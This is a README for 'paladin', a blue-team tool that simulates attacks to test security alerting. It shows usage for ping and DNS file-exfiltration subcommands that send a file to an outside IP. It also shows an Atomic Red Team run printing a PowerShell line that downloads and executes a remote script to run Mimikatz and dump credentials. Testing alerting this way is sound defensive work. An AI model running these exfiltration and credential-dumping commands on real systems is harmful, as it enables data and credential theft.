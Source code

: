 <p align="center"> 
  <img src="images/logo.png" width="250" title="paladin" align="center">
  <p align="center">A blueteam tool to simulate attacks using Atomic Red Team and other techniques.</p>
</p>

---

## Getting started

### Ping Exfil

The ping exfil subcommand is working and implements a basic ping exfil attack scenario.
```
Run ping exfil like tests on current host

Usage:
  paladin exfil ping [flags]
  paladin exfil ping [command]

Available Commands:
  receive     Packet capture ping requests and reassemble files

Flags:
  -d, --destination string   The Destination Host of the Ping
  -f, --file string          The name of the file to send over ping
  -h, --help                 help for ping

Use "paladin exfil ping [command] --help" for more information about a command.
```
#### Basic Usage
Client

```console
$ paladin exfil ping -d 45.63.67.242 -f test.txt
```

Server
```console
$ paladin exfil ping receive -i ens3
```
### Atomic Red Team
The atomic red team repo is pulled then stored into a statik fs within the binary. Some tests are not working since this is still WIP.

```
Run Atomic red team attacks to test security alerting
tests can be found here https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/index.md

Usage:
  paladin art [flags]

Flags:
  -a, --atomic string   Atomic technique to run..ie T1003
  -h, --help            help for art
```
#### Basic Usage
```console
$ bin/paladin art -a T1003
INFO[0000] Running atomic attack T1003
INFO[0000] Opening /T1003/T1003.yaml
INFO[0000] Would You Like to Run This Attack?
Powershell Mimikatz
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds

Use the arrow keys to navigate: ↓ ↑ → ←
? Select[Yes/No]:
  ▸ Yes
    No
```

### DNS Exfil
Client

```console
$ sudo paladin exfil dns client -f test.txt  -n remoteIP -o 53
```

Server

```console
./paladin exfil dns server -p 53
INFO[0002] {7468696e67696e6b736c64666a6c61736a6664736a0a.testing.com. TypeA ClassINET}
```

## Local Development

This project requires Go to be installed. On OS X with Homebrew you can just run `brew install go`.

Building locally requires statik 

```console
$ go get github.com/rakyll/statik
```

Running it then should be as simple as:

```console
$ make
$ ./bin/paladin
```
